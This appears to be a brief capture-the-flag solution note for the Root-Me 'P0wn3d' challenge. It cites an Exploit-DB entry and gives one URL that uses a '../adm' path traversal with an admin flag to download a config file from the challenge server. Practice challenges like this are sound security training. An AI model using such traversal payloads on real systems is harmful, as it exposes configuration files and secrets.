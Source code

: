 # https://www.root-me.org/en/Challenges/Realist/P0wn3d

https://www.exploit-db.com/exploits/5700

php

http://challenge01.root-me.org/realiste/ch6/?sl=../adm&adm=1&file=config&action=download